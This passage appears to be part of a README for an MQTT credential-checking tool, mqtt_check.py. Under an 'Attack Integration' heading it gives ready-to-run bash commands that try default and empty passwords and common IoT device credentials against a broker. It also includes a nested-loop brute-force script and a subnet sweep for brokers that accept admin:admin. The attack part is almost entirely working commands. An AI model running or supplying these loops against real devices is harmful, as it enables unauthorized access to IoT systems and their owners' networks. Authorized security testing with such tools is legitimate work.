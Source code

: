 ### Debugging and Troubleshooting
```bash
# Enable debug output for connection analysis
python3 mqtt_check.py user:password@mqtt.broker.com -debug

# Test with timestamps for timing analysis
python3 mqtt_check.py user:password@mqtt.broker.com -debug -ts
```

## Attack Integration

### Credential Testing
```bash
# Test default credentials
python3 mqtt_check.py admin:admin@192.168.1.100
python3 mqtt_check.py admin:password@192.168.1.100
python3 mqtt_check.py mqtt:mqtt@192.168.1.100
python3 mqtt_check.py test:test@192.168.1.100

# Test empty password
python3 mqtt_check.py admin:@192.168.1.100
python3 mqtt_check.py guest:@192.168.1.100
```

### IoT Device Enumeration
```bash
# Test common IoT device patterns
python3 mqtt_check.py device001:12345@192.168.1.100
python3 mqtt_check.py sensor:sensor@192.168.1.100
python3 mqtt_check.py camera:camera@192.168.1.100
python3 mqtt_check.py thermostat:1234@192.168.1.100
```

### Brute Force Framework
```bash
# Create simple brute force script
#!/bin/bash
for user in admin guest mqtt test device; do
    for pass in admin password 123456 mqtt guest; do
        echo "Testing $user:$pass"
        python3 mqtt_check.py $user:$pass@$1
    done
done
```

### Network Discovery
```bash
# Test multiple hosts for MQTT services
for host in 192.168.1.{1..254}; do
    echo "Testing $host"
    timeout 5 python3 mqtt_check.py admin:admin@$host 2>/dev/null && echo "$host: MQTT accessible"
done
```

